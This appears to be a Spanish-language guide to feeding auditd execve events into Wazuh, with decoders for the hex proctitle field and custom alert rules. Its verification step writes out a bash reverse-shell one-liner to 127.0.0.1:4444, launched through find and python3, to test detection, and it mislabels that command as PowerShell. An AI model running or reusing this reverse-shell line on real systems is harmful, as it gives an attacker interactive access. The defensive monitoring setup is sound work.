 # Integración auditd → Wazuh con decodificación de proctitle

## 1. Objetivo

Esta integración permite:

* Capturar eventos de auditd (tipos SYSCALL, EXECVE y PROCTITLE).
* Decodificar el campo proctitle, que viene en hexadecimal, y transformarlo a texto legible.
* Enriquecer los eventos en Wazuh con el comando exacto ejecutado por el usuario.
* Generar reglas de correlación que disparan alertas cuando se detectan llamadas a syscall=execve y comandos específicos.

## 2. Requisitos

* Wazuh Manager 4.12 (probado en esa version).
* auditd instalado, habilitado y generando logs en /var/log/audit/audit.log.
* Reglas auditd que registren execve y proctitle, por ejemplo en /etc/audit/rules.d/audit.rules:

```bash
-a always,exit -F arch=b64 -S execve -k execmonitor
-a always,exit -F arch=b32 -S execve -k execmonitor
```

## 3. Paso a paso

### 3.1. Crear decoders personalizados

* Modificar la configuracion para editar el decoder por defecto de Auditd en Wazuh.
* El archivo en cuestion es __0040-auditd_decoders.xml__
* Seguir la documentacion para realizar esta configuracion: https://documentation.wazuh.com/4.6/user-manual/ruleset/custom.html

Incluye decoders para:

* SYSCALL (extrae uid, auid, exe, syscall, comm, pid, ppid).
* PROCTITLE (extrae el campo hex).
* EXECVE (extrae argumentos opcionales).

Ejemplo de bloque para PROCTITLE:

```xml
<!-- PROCTITLE -->
<decoder name="auditd-syscall">
  <parent>auditd</parent>
  <regex offset="after_regex">type=PROCTITLE msg=audit\(\S+\): proctitle=(\.+)</regex>
  <order>audit.proctitle.msg, audit.proctitle.value</order>
</decoder>
```

### 3.2. Script de decodificación (custom integration)

Archivo: __/var/ossec/integrations/custom-auditd_decoder.py__

Este script convierte el campo HEX de proctitle a texto claro y lo devuelve generado en una alerta nueva.

Permisos recomendados:

```bash
chmod 750 /var/ossec/integrations/custom-auditd_decoder.py
chown root:wazuh /var/ossec/integrations/custom-auditd_decoder.py
```

### 3.3. Definir la integracion en Wazuh

En __/var/ossec/etc/ossec.conf__, dentro de __<ossec_config>__:

```xml
<integration>
  <name>custom-auditd_decoder.py</name>
  <rule_id>100371</rule_id>
  <alert_format>json</alert_format>
</integration>
```

### 3.4. Crear reglas personalizadas

Archivo: __/var/ossec/etc/rules/audit_custom.xml__

Ejemplo básico:

```xml
<rule id="100365" level="3">
    <if_sid>80700</if_sid>
    <field name="audit.type">SYSCALL</field>
    <description>Auditd: Syscall</description>
</rule>

<rule id="100371" level="3">
    <if_sid>100365</if_sid>
    <field name="audit.proctitle.msg">(\S+)</field>
    <description>Auditd: evento de syscall encodeado</description>    
</rule>

<rule id="100390" level="3">
    <field name="integration">custom-auditd_decoder</field>
    <description>Auditd: evento decodeado</description>    
</rule>

```

## 4. Reiniciar servicios

Tras cada cambio, reiniciar Wazuh Manager:

```bash
systemctl restart wazuh-manager
```

## 5. Verificación y pruebas

### 1. Generar un evento controlado:

Mediante la herramienta de Atomic Read Team, se ejecuta un comando de Powershell

```bash
find /tmp -name "temp_file.txt" -exec /usr/bin/python3 -c "import os; os.system('bash -i >& /dev/tcp/127.0.0.1/4444 0>&1')" \;
```

### 2. Revisar el log de Wazuh

![](./media/auditd1.png)

![](./media/auditd2.png)

![](./media/auditd3.png)

## 6. Resultados esperados

Cada ejecución de comando vía execve queda reflejada en Wazuh con:

* Usuario (uid, auid).
* Proceso (exe, comm, pid, ppid).
* Comando exacto en texto claro (proctitle.msg).